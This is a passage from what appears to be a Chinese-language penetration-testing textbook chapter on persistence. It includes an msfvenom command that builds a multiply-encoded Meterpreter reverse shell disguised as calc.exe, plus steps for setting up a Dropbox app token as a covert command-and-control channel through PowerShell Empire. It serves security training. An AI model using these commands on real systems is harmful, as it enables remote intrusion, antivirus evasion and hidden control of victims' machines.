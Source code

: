 1.  下载文件后，运行以下命令：

    ```
    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -x /root/calc.exe -k -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -a x86 --platform windows -e x86/bloxor -i 9 -f exe -o calc.exe 
    ```

1.  可以将代理放置在目标系统上，并重命名为`calc.exe`（如果访问被拒绝，可以将文件放在桌面上），然后执行。

不幸的是，几乎所有 Metasploit 编码的可执行文件都可能被客户端防病毒软件或 EDR 软件检测到。这归因于渗透测试人员将加密的有效负载提交到 VirusTotal 等网站（[www.virustotal.com](http://www.virustotal.com)）。然而，你可以创建一个可执行文件，然后使用 Veil-Evasion 进行加密，具体描述见*第十章*，*利用*。

## 使用在线文件存储云服务来维持持久性

允许与云服务共享文件的每个组织可能会使用 Dropbox 或 OneDrive。攻击者可以利用这些文件存储服务在受损系统上维持持久性。

在本节中，我们将重点介绍在受害者系统上使用这些文件存储云服务，并通过使用 Empire PowerShell 工具来维持持久性，以运行 C2，而无需透露攻击者后端 IP 地址。

### Dropbox

对于使用 Dropbox 的公司，此监听器可作为高度可靠的 C2 通道。我们的 PowerShell Empire 工具中预加载了`dbx`后渗透模块，利用 Dropbox 基础设施。代理与 Dropbox 通信，允许其用作 C2 中心。

按照以下步骤设置 Dropbox 分段器：

1.  创建一个 Dropbox 账户。

1.  前往 Dropbox 开发者网站的我的应用([`www.dropbox.com/developers`](https://www.dropbox.com/developers))页面。

1.  进入**应用控制台**，点击**创建应用**。

1.  选择一个**Scoped access New** API。

1.  将需要的访问类型设置为**完全访问 Dropbox – 可访问用户 Dropbox 中所有文件和文件夹**。

1.  输入应用程序的名称，例如，`KaliC2C`，点击**创建应用**，并勾选同意条款和条件。

1.  应用程序创建后，Dropbox 应将我们带到设置页面。在生成密钥之前，您需要转到**权限**选项卡，并确保通过选中**files.metadata.read**、**files.metadata.write**、**files.content.write**和**files.content.read**来设置写入权限。

1.  现在我们已经准备好生成令牌。如果你在前一步骤的**权限**选项卡中，点击**设置**选项卡。在**OAuth 2**部分和**生成的访问令牌**标题下，点击**生成**，你应该看到 Dropbox 正在创建一个新的令牌，如 *图 13.8* 所示：![](img/B17765_13_08.png)
